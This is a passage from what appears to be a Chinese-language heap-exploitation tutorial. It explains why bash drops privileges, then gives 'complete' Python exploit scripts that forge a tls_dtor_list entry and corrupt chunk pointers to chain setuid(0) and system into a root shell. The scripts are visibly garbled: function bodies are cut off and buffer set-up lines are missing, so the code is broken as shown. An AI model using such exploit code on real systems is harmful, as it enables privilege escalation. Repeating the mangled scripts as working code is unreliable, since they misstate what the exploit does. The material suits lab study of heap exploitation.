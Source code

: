 > 为什么不能获得 root shell？

当`uid != euid`时，`/bin/bash`会丢弃权限。我们的二进制“前向合并”的真实 uid 是 1000，但是它的有效 uid 是 0。因此当`system`调用时，bash 会丢弃权限，因为真实 uid 不等于有效 uid。为了解决这个问题，我们需要在`system`之前调用`setuid(0)`，因为`_call_tls_dtors()`依次遍历`tls_dtor_list `，我们需要将`setuid`和`system`链接，以便获得 root shell。

完整的利用代码：

```py
#gen_file.py
#!/usr/bin/env python
import struct

#dtor_list
setuid = 0x4e123e30
setuid_arg = 0x0
mp = 0x804b020
nxt = 0x804b430

#endianess convertion
def conv(num):
 return struct.pack("<I",num(setuid)
tst += conv(setuid_arg)
tst += conv(mp)
tst += conv(nxt)

print tst
-----------------------------------------------------------------------------------------------------------------------------------
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

fd = 0x0804b418
bk = 0x0804b418
fd_nextsize = 0xb7fe86c0
bk_nextsize = 0x804b008
system = 0x4e0a86e0
sh = 0x80482ce

#endianess convertion
def conv(num):
 return struct.pack("<I",num(fd)
buf += conv(bk)
buf += conv(fd_nextsize)
buf += conv(bk_nextsize)
buf += conv(system)
buf += conv(sh)
buf += "A" * 996

print "Calling vulnerable program"
call(["./consolidate_forward", buf])
```
